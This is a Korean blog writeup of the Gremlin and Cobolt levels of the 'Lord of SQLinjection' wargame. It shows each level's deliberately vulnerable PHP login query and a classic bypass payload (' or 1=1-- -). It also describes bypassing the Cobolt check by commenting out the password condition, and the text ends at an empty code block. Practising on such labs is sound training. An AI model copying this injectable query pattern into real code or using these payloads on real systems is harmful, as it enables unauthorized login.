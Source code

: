 ```yaml
---
title: Lord of SQLinjection Writeup
description: Lord of SQLinjection
date: 2024-11-10 00:02:00 +09:00
last_modified_at: 2024-11-10 00:02:00 +09:00
categories: [Hacking, Web]
# toc: false 오른쪽에 있는 목차 비활성화
# comments: false 댓글 비활성화
tags:
  [
    Hacking,
    Database,
  ]
---
```

## Gremlin
가장 기본적인 SQL-i 공격 기법이다.
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```
### exploit
아무 필터링도 하지 않는 취약한 코드를 사용한다.<br>
'or 1=1을 입력하여 쿼리를 참으로 만드는데 성공했다.
```sql
select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'
-> select id from prob_gremlin where id='' or 1=1-- -' and pw='{$_GET[pw]}
payload=' or 1=1-- -
```
<br>

## Cobolt
```php
<?php
  include "./config.php"; 
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```
### exploit
1번 문제와 다른 점은 pw를 md5를 사용해 암호화한다는 것과 조회된 id가 admin인지 확인한다는 것이다.
이 부분은 조회할 id를 admin으로 명시하고 pw 부분을 주석 처리하여 우회한다.
```sql
```
